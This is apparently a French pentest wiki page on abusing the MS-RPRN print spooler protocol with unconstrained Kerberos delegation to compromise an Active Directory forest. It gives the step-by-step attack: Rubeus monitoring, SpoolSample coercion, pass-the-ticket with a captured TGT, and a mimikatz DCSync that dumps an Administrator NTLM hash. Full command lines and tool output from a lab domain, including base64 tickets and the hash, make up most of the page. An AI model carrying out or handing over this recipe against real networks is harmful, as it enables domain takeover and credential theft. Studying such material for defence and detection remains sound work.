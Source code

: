 ```yaml
---
title: MS-RPRN
permalink: /MS_RPRN/
---
```


# MS-RPRN

MS-RPRN est un protocole utilisé pour les printers. Il est cependant utilisable pour obtenir un accès administratif dans une forêt ou **sur une autre forêt avec laquelle on un trust**. (Voir [Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)).

## Exploitation

L'exploitation utilise les éléments suivants:
- Un accès administratif sur un serveur avec **Unconstrained Delegation**. Par défaut ceci est le cas de tous les contrôleurs de domaine (serveur **CHOCOBO.goldsaucer.local**).
- Un serveur ciblé (serveur **MIDGAR.shinra-inc.local**)
- Il doit y avoir un accès réseau entre les deux serveurs et un trust bidirectionnel si les deux serveurs sont dans des domaines différents (y compris des forêts différentes)
- [Rubeus](https://github.com/GhostPack/Rubeus) et [SpoolSample](https://github.com/leechristensen/SpoolSample) à compiler et mimikatz.

Sur le serveur Chocobo.goldsaucer.local lancer:

``` 
.\Rubeus.exe monitor /interval:5
```

Ce script dumpera tout TGT obtenu par le serveur (ce qui arrivera en raison de l'unconstrained delegation). Laisser tourner et lancer dans un autre terminal:

``` 
.\SpoolSample.exe MIDGAR.shinra-inc.local CHOCOBO.goldsaucer.local
```

Ce second script va utiliser le service MS-RPN pour forcer le serveur MIDGAR à s'authentifier auprès du serveur contrôlé (CHOCOBO). En raison de l'unconstrained delegation, le serveur MIDGAR va envoyer son TGT dans le ticket de service Kerberos. Sur le cmd Rubeus on devrait avoir:

```
[+] 02/12/2018 21:58:26 - 4624 logon event for 'SHINRA-INC\MIDGAR$' from '192.168.80.100'
[*] Target LUID     : 0x2987c3
[*] Target service  : krbtgt

  UserName                 : MIDGAR$
  Domain                   : SHINRA-INC
  LogonId                  : 2721731
  UserSID                  : S-1-5-21-227358413-259298668-3497230074-1001
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 02/12/2018 21:58:26
  LogonServer              :
  LogonServerDNSDomain     : SHINRA-INC.LOCAL
  UserPrincipalName        :

    ServiceName              : krbtgt/SHINRA-INC.LOCAL
    TargetName               :
    ClientName               : MIDGAR$
    DomainName               : SHINRA-INC.LOCAL
    TargetDomainName         : SHINRA-INC.LOCAL
    AltTargetDomainName      : SHINRA-INC.LOCAL
    SessionKeyType           : aes256_cts_hmac_sha1
    Base64SessionKey         : Uhj38P28/6m+AMvTlF4qPZ5iuAtsISQNCNAXGUypKME=
    KeyExpirationTime        : 01/01/1601 00:00:00
    TicketFlags              : name_canonicalize, pre_authent, renewable, forwarded, forwardable
    StartTime                : 02/12/2018 21:58:26
    EndTime                  : 03/12/2018 06:56:52
    RenewUntil               : 09/12/2018 20:56:52
    TimeSkew                 : 0
    EncodedTicketSize        : 1372
    Base64EncodedTicket      :

      doIFWDCCBVSgAwIBBaEDAgEWooIEUjCCBE5hggRKMIIERqADAgEFoRIbEFNISU5SQS1JTkMuTE9DQUyiJTAjoAMCAQKhHDAaGwZr
      cmJ0Z3QbEFNISU5SQS1JTkMuTE9DQUyjggQCMIID/qADAgESoQMCAQKiggPwBIID7FszyHoAYZaQks5oJ8sTbwBtBXG3J+eadLQ/
      ueVE52c/ejXEd8z2YVTpOeN/FPsDUYABuxH4LJbD/dKxAfQNeuTmJUg4frHWqDvOarlmqc1MpQYqVCdY6JReEBNl30N67CycgGHs
      KbtOFhX80YlZrKFYHB1E2gSqIOhetLZydr7DwcAu5sF+NUFmoVc5efCuiJEDmUSp404r+TKf809sQ/v7IFm4ZYioRVPdfD+cQtLY
      OuHgErLFvrH9JRRF2/P9SNE4rvK+lmU8OEQWUnXfRMNKDOzd3Kigq0evkshDX8B7cCX47orK7Gm1YMxSTQrRjyaPl0DFbFOkd1Kj
      Q6QTdqgKkWjKFlAM6IvaB3hzNQv5ZLy3Bx8alkIm89gdR6xxkFx7ta81HSgEB2oDr5YxnSBXcXHUjDWaY3YSo2+Cgi5b8Ck4n932
      H75me2jVSccRajYWZbzjysnB6yGtnv/BivvbjjKWeFJKUdy8Xvh4zwWMiqBjj2tARGKK1XmJCBtehb3t/6GQhVcO6reZl6iS5WOm
      Q1JuASP1iAfQimKnBzljm1wo7dac/sWtCYAL78mkE8HK2phECwlxZ38dUp/yPXxRQ+Z6lCSfxsEF4XfmXDpxBGeNWpd+uvjfXexk
      Qe/Kml6Jwc8W5BGgP/IVlU4c/fPUijKjyXQIMnJZRyeDB32ujYOQb63dwTDWuxo6WTHQapzzoGZm5XAUKikbH+EdKKM4r4qxQ8XP
      8wUbGPppU7pSFN+ZgUtvLLYDV2Md/6ztEzQrRP0rd2uPLYXT6nef75VjR9UEKA1Gjxo8WvyvaXZdRKJQdvi4eWOr4luq3Re70/hF
      Fb8FccI8sEgpS9075dmEEKWgcEt3223ZBwBSbOqF6Emg0wQBypWfEquub57axbdsDop4557YSqliDXGd1DhvWENCGez4nPM4NQYj
      h3X0WeaKC03noJlqiWqXMnYUAoq7Cdo5OCvYORj8XT8eMV9vDXRe16wZVDvcUfqJnLa0605rNZwuX6adkLlre+G7rsJE7UReb6J0
      nnXxJwYHGq0QjilKJp5LX3AB1CexixZdkgxgnXgieQPOUsUton77/OFigcLQKk1/sfY6Qg+wSUxh9kGYCigqFultUp4s6E9cKeSG
      7w+Yb3Kty9XoxCCGAzF5gW2OU58gdHGk5qY+9d8YR35R5C9DLhY3tbtm8+Z1tYeyRUWw0k+Hi1Fwzm4qa0SyNTcFDI6xLmxUtnzJ
      Ce/oN3drOO25QwnLtEPhyBE3UK1RWAaBWetWKFLzAwv8hCyG288MU/8lPMqDXKkddHY43JlCIZzXOlO0X0KmKdJMaEVUUXf0V28h
      ZX/lo4HxMIHuoAMCAQCigeYEgeN9geAwgd2ggdowgdcwgdSgKzApoAMCARKhIgQgUhj38P28/6m+AMvTlF4qPZ5iuAtsISQNCNAX
      GUypKMGhEhsQU0hJTlJBLUlOQy5MT0NBTKIUMBKgAwIBAaELMAkbB01JREdBUiSjBwMFAGChAAClERgPMjAxODEyMDIyMTU4MjZa
      phEYDzIwMTgxMjAzMDY1NjUyWqcRGA8yMDE4MTIwOTIwNTY1MlqoEhsQU0hJTlJBLUlOQy5MT0NBTKklMCOgAwIBAqEcMBobBmty
      YnRndBsQU0hJTlJBLUlOQy5MT0NBTA==

[*] Extracted  1 total tickets
```

On peut alors utiliser mimikatz (ou autre) pour faire un DCsync en utilisant le TGT récupéré. Rubeus permet de faire un pass the ticket:

```
.\Rubeus.exe ptt /ticket:doIFWDCCBVSgAwIBBaEDAgEWooIEU
jCCBE5hggRKMIIERqADAgEFoRIbEFNISU5SQS1JTkMuTE9DQUyiJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEFNISU5SQS1JTkMuTE9DQUyjggQCMIID/qADAgESo
QMCAQKiggPwBIID7F+UEe4HvHR188pbTGRg6+Smi1g5oGhtGqLSUYkDc/bViq8CfwcY2R9FgMqLoTUjUyjFXtsUvTUvoJ8boq7xt4LeUi6+JaCICTZsWy/DG
uisnNpZat1IOP5If7pvJPWwyZApWUMQfK21AHv4T/9lCes6Ilqk3ml3UX+l+rvJjIOxs3To/yhBZuWsxpaTsmg+FIyhY1HpsFuoMIP1GxPKDHuWKeKfOGHxG
2llYZp68f8Je6NpU120XdQC/dBbn2mY972fBfJfD4IpB7QkSAFHkX+vdEFUq4zIk+k/ge8fp4IZSIXzYEn+Bs3i1NqH0XRM23MoALD+h+HhX4bTaYMUeX3mr
W/Eg1mAwIwcDyqUjXT1vcwYNgoOUWKvondsKQBEEGB6VC2eiCFAdEoRSYpNNc8RBB0KPJ87zGLH4zBr6YNuAFj0RAW0WrNL5kImj6LfkUJ7fA+8L30/lqQ/M
/ryOlF43XZ35EuYZr+EADpWmNZgJ0kGyJQH5260xaPqPzrszlMgIqf25ZtplWU3hgYEGnkPtSPqDCfN+OpscSjBylASuzoPglF/2mWNbOoB0LgjUig9apACC
kRjDZhi21BI13RJHLntlzAwQhyUPv648RCPXFfW5wqxrUdzr1FZuPko0ms6hBntCC/FjHRLFElKdSrAGFWxiUE4FFrz9Urn0TsmpbHpzLE0oNpbKqWoC88x4
FNdWoGTRSOQl4syeMrzmpYTVLsCc5J2hQmk+oX2YaewfeEs1yRDWJt8WnHrCUUap04pIFewdlwnG5ojQJuGZuDtsTrBNkRLjcEoYxzmNrMMHYd/OMql30siW
k9Rrpn9lDX7P68fgC1R5rG/1ZyVXPvdcHEQO3i5QWPWF2gmjDznXBroMTOd4cxRZDllWaSPH77RJ7g0eOZLKRW3fd4AVNJBShZ6BqwK1xbhrne9OuBIf/1PE
k77F628T2dJ4H6mG/jnbdih92yQkXOiAYlcpkUBK4I7e/6mKeHt4egHGk0vPjw8u4wu7WGQtFGo9uE1euhELm+Q6l5zlAVLd7rb2vAVPqruFntssfe4RlKse
yN/V+kVteIyAf4u7lyEC64JEjVJHJN2BhrUcFjMY7XzhWKqnubR3zpr7ruk7rxwfP1DC6VbeHwo/GWWbIkn3TMo98NaBSUP0h7UqKtN6WOko8us6LfpBZAOx
ylnFaBS+Erfz4OPD5tlivR0EXFVp6hvKjHb9mfSdtOqAAKaGXV/1NULPUIVtgbyWnDKbj1S6f7wypzBHAnrfWJjfP3EeoNmZt4Xq1xcioEu1ZKYQTOMmfvW7
Epomgc8yidpJHQMb2VJtwVXhuyOGmwvXAVgo4HxMIHuoAMCAQCigeYEgeN9geAwgd2ggdowgdcwgdSgKzApoAMCARKhIgQgv+cfRiBxpphRN8cgCT5Khg3K5
uYK/oaeXVxIm8hTuWehEhsQU0hJTlJBLUlOQy5MT0NBTKIUMBKgAwIBAaELMAkbB01JREdBUiSjBwMFAGChAAClERgPMjAxODEyMDIyMDU2NTJaphEYDzIwM
TgxMjAzMDY1NjUyWqcRGA8yMDE4MTIwOTIwNTY1MlqoEhsQU0hJTlJBLUlOQy5MT0NBTKklMCOgAwIBAqEcMBobBmtyYnRndBsQU0hJTlJBLUlOQy5MT0NBT
A==

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.2.1


[*] Action: Import Ticket
[+] Ticket successfully imported!
```

On peut alors faire un dcsync avec mimikatz (ici on récupère le hash de Administrator, mais on pourrait récupérer celui de krbtgt):

```
.\mimikatz.exe "lsadump::dcsync /domain:SHINRA-INC.local /user:SHINRA-INC\Administrator"

  .#####.   mimikatz 2.1.1 (x64) built on Sep 25 2018 15:08:14
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::dcsync /domain:SHINRA-INC.local /user:SHINRA-INC\Administrator
[DC] 'SHINRA-INC.local' will be the domain
[DC] 'MIDGAR.SHINRA-INC.local' will be the DC server
[DC] 'SHINRA-INC\Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 01/01/1601 00:00:00
Password last change : 01/12/2018 21:45:58
Object Security ID   : S-1-5-21-227358413-259298668-3497230074-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: d961c5ec5be55f242a4e0671d364fda4
```

## Références
### Outils
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [SpoolSample](https://github.com/leechristensen/SpoolSample) 

### Articles
- [Not A Security Boundary: Breaking Forest Trusts (SpecterOps)](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
- [Domain Controller Print Server + Unconstrained Kerberos Delegation = Pwned Active Directory Forest (ADSecurity)](https://adsecurity.org/?p=4056)
- [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
